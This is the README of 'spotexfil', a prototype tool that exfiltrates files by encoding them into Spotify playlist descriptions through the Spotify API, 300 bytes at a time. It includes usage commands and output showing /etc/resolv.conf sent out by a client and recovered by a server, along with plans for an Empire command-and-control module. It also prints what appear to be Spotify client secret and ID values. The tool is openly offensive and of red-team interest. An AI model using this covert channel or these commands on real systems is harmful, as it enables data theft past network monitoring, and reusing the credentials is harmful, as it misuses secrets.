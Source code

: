 # spotexfil (status: prototype)
A simple attempt to exfiltrate data using spotify API, 300 bytes at a time.

We can read a mini file (payload) and encode it inside a playlist description field via Spotify API.
Really MVP/prototype, not meant for large files.

More info at https://medium.com/@jeanmichel.amblat/exfiltration-series-spotexfil-9aee76382b74

# Pre-requisite
You need to register the app with Spotiy at https://developer.spotify.com/dashboard/

Then, after using the first time, the following environment variables should be set such as:
```
SPOTIFY_USERNAME=YourSpotifyUsername
SPOTIFY_CLIENT_SECRET=0de477a0733545a1a40e2e35d7b9d897
SPOTIFY_CLIENT_ID=3a292c314830b8611963ac4fb2f29da1b
SPOTIFY_REDIRECTURI=http://localhost/callback
```

# Usage

Using /etc/resolv.conf as payload:

```
$ ./spotexfil_client.py -f /etc/resolv.conf
[*] Data cleared
"0614b19d74be941ac3a89fdcbc33d3ebc62cb996f574a1b3cb95867c1db90b87ca154ad38151a25e09d2b9429f66ad8d00afb005b1e257f89c27b030ca46ae3b6856574d3bc40476fd3c0703618f4ac4810dc59b7797dc1a873252de1017fd12205e99458eb0f40c4fa98db36cc972ec3c7f008541450e8269679fd6e54cf09ac432e002fdfb3be3ae85fa89373e0ad3c68af7bde50
	[*] Creating inpayloadwetrust0
b5118c7d5947d2f1a467069e3f2796b3859015741622226f58609dcee056954b42520dfeb8d09c1280fffb1e2c7178c3d46e0203b6284e14d08868e75bef729b939fee6e4edcd0e463f5b2797b40640eabf8940bfb8e82bde4bed531310b6e496066bad02a1a7bc4c854ef070a14166a6cd55f0c8f17c9c9ffaf79bef38c3dfaf6fd9d0ef1baf62589aad3c39bafd768cbe7ee48a10b
	[*] Creating inpayloadwetrust300
728a9be5127a45b5aa4b1a6f6cbd216f1e0ae80d843ad2f15a07ae721773eb529ea64963557196ba8bd29eca370ff3a8ae6d32f67251edb078619a4d97db332ccf432402a3a45b5675b82e6f8"
	[*] Creating inpayloadwetrust600
[*] Data encoded and sent
```

Receiving from a far:

$ ./spotexfil_server.py -r
```
#
# macOS Notice
#
# This file is not consulted for DNS hostname resolution, address
# resolution, or the DNS query routing mechanism used by most
# processes on this system.
#
# To view the DNS configuration used by this system, use:
#   scutil --dns
#
# SEE ALSO
#   dns-sd(1), scutil(8)
#
# This file is automatically generated.
#
domain nyc.rr.com
nameserver 172.16.0.1
```

# TODO
* Working on Empire C2C module
* move from XXTEA crappy easy crypto to asymmetric (working in separate branch)
* peer-review from a real Python developper would help :P
* build chat system, adding a realtime listener component into spotexfil_server.py

